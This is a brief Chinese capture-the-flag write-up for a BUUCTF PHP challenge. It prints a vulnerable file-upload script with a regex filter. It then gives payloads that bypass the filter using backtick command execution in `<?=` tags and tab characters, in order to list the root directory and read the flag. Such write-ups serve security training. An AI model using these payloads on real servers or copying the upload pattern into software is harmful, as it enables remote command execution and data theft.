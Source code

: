 ### `` 代替命令执行函数绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d825c788c538a9b5bff9d7.png)

打开页面给出了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

先看看路径是什么

![](https://pic1.imgdb.cn/item/67d8260f88c538a9b5bff9f2.png)

我们需要知道这个目录下有什么，但是常见的 eval() 函数被过滤了

使用 `` 包裹命令，这样 PHP 就会将里面的内容当成命令执行

最后使用 `<?=` 输出，同时 `\t` 绕过空格

```php
?action=upload&data=<?=`ls\t/`?>
```

![](https://pic1.imgdb.cn/item/67d8277888c538a9b5bffa4d.png)

访问文件拿到 flag

```
?action=upload&data=<?=`cat\t/flllllll1112222222lag`?>
```

![](https://pic1.imgdb.cn/item/67d8279888c538a9b5bffa5d.png)